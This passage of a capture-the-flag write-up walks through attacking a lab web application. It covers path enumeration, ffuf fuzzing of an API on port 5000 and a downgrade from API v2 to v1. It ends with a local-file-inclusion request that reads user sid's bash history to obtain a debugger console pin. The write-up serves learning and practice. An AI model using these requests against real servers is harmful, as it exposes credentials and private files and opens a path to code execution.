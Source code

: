 ```
http://<TargetIP>/assets/
http://<TargetIP>/assets/css/
http://<TargetIP>/assets/fonts/
http://<TargetIP>/assets/js/
```
From this list I started poking around file paths and through the source to find anything of interest.
```
http://<TargetIP>/login.html
  <!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->

http://10.10.44.68/assets/js/api.js
  //the previous version of the api had a parameter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.
```
From this information I could surmise that the site had a vulnerability in it's API and I would be able to find a pin/password in the user `sid`'s bash history.

Now it was time to try and find the API vector for further enumeration. I spent a good amount of time walking over the site to finding this but I wasn't successful until I tried to visit the using the open port `5000` that was discovered earlier through nmap.
```
http://<TargetIP>:5000
```
Here I discovered the REST API and it's version and decided to run another fuzz against this new vector.
```bash
ffuf -w /<wordlist>.txt -u http://<TargetIP>:5000/FUZZ > /<output>.txt
```
```
http://<TargetIP>:5000/
http://<TargetIP>:5000/console
http://<TargetIP>:5000/api
```
The results revealed the entry point for the console under `/console` and documentation under `/api`. Using one of the API calls found in the documentation I could see that calls can be made through the URL.
```
http://<TargetIP>:5000/api/v2/resources/books/all
```
Immediately I could see a reference to the API's version through the URL with `/v2/`  and swapped it back down to `/v1/` as per the hint we found through enumeration.
```
http://<TargetIP>:5000/api/v1/resources/books/all
```
This revealed data similar however was in a more rudimentary format confirming that the potentially vulnerable version was still in use. From here I could start to employ some LFI using SSRF. I spent a bit of time going over my notes to make this work, eventually finding the `?show=` function to make the requests. Upon finding the viable method, I aimed straight for user `Sid`'s bash history'.
```
http://<TargetIP>:5000/api/v1/resources/books?show=/home/sid/.bash_history
```
With a successful call the pin is revealed which I could then use to unlock the console. At this point I needed to get an output from the console to understand what it does so I started by entering some linux commands.
